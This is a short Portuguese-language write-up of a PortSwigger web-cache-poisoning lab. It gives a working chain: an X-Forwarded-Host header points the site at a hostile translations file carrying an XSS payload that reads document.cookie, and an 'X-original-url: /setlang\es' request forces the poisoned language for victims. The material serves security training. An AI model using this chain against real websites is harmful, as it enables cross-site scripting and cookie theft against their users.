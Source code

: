 #ctf 

https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-combining-vulnerabilities

**Param miner:**
- `X-forwarded-host`
- `x-original-url`

Existe um json na página onde o valor do `host` vem do header `X-forwarded-host`. 

```html
<script>
data = {"host":"0a9c007f04e93301809021f3009c0052.web-security-academy.net","path":"/"}
</script>
```

Essa url é usada para buscar pela lista de traduções nesta função.

```javascript
function initTranslations(jsonUrl)
{
    const lang = document.cookie.split(';')
        .map(c => c.trim().split('='))
        .filter(p => p[0] === 'lang')
        .map(p => p[1])
        .find(() => true);

    const translate = (dict, el) => {
        for (const k in dict) {
            if (el.innerHTML === k) {
                el.innerHTML = dict[k];
            } else {
                el.childNodes.forEach(el_ => translate(dict, el_));
            }
        }
    }

    fetch(jsonUrl)
        .then(r => r.json())
        .then(j => {
            const select = document.getElementById('lang-select');
            if (select) {
                for (const code in j) {
                    const name = j[code].name;
                    const el = document.createElement("option");
                    el.setAttribute("value", code);
                    el.innerText = name;
                    select.appendChild(el);
                    if (code === lang) {
                        select.selectedIndex = select.childElementCount - 1;
                    }
                }
            }

            lang in j && lang.toLowerCase() !== 'en' && j[lang].translations && translate(j[lang].translations, document.getElementsByClassName('maincontainer')[0]);
        });
}
```

Ao criar nossa própria lista de traduções podemos usar o `X-forwared-host` para buscar ela.

```
/resources/json/translations.json

HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
Access-Control-Allow-Origin: *

{
    "es": {
        "name":"Espanhol",
        "translations": {
            "Return to list": "Volver a la lista",
            "View details": "<img src=1 onerror=alert(document.cookie)>",
            "Description:": "Desc:"
         }
    },
    "en":{
        "name":"English"
     }
}
```

Até aqui temos a vulnerabilidade explorada, porém para finalizar o lab precisamos fazer o usuário (que só usa a tradução inglês) rodar isso.

Existe uma rota `/setlang/{tradução}` que é acionada quando o usuário escolhe a tradução desejada e ela seta o cookie `lang={tradução}`. Porém como o cookie é setado, a resposta não vai para o cache.

O outro header que o **ParamMiner** encontrou `X-original-url`, pode ser usado para alterar a rota `X-original-url: /setlang/es`. Passando esse valor para o header, a resposta também não vai para o cache, mas se usar `\` ela é armazenada: `X-original-url: /setlang\es`.

Combinando os dois exploits:
1.  `GET /?localized=1` com `X-Forwarded-Host: exploit-0a4600c703293ab382090f5d01b900e1.exploit-server.net`
2. Segundo o `GET /` com `X-original-url: /setlang\es`

GG